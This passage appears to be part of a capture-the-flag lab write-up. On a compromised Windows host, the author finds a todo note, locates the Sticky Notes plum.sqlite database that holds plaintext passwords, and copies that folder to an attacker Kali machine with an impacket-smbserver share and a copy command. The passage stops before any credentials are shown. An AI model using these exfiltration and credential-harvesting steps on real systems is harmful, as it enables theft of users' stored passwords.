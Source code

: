 # Shell as development user
## Found todo.html in desktop folder of juliette
```powershell
PS C:\Users\juliette\Desktop> ls


    Directory: C:\Users\juliette\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         12/9/2020   6:27 AM            753 todo.html
-ar---         7/29/2021  10:26 PM             34 user.txt


PS C:\Users\juliette\Desktop> type todo.html
<html>
<style>
html{
background:black;
color:orange;
}
table,th,td{
border:1px solid orange;
padding:1em;
border-collapse:collapse;
}
</style>
<table>
        <tr>
            <th>Task</th>
            <th>Status</th>
            <th>Reason</th>
        </tr>
        <tr>
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>
            <td>Unauthorized access might be possible</td>
        </tr>
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
            <td>In progress</td>
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>
```
which tells that something be interesting in sticky notes application folder.
## Going in Sticky notes application folder
Going in sticky notes application folder `C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState` gives following files.
```powershell
PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> ls


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:10 PM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----        11/29/2020   3:10 AM           4096 plum.sqlite
-a----         1/15/2021   4:10 PM          32768 plum.sqlite-shm
-a----         1/15/2021   4:10 PM         329632 plum.sqlite-wal


PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>
```
## copying whole `LocalState` folder to kali via smbserver
Started impacket smbserver  using  command`impacket-smbserver -smb2support files $(pwd)` and then copied folder `LocalState` to local kali vm using command `copy -R LocalState \\10.10.14.105\files\`.
![[Pasted image 20210730135631.png]]
## opening sqlite database file in sqlite3 and getting `Development` User creds



